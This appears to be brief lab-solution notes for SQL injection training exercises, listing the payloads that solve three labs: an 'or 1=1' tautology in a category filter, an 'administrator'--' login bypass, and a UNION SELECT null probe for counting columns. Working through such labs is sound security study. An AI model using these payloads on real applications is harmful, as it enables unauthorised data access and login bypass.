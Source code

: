 1. Lab 1:
- GET /filter?category=`'+or+1=1--+` HTTP/1.1

2. Lab 2:
- `administrator'--`

3. Lab 3: SQL injection UNION attack, determining the number of columns returned by the query
- GET /filter?category=Pets`'+union+select+null,null,null--` HTTP/1.1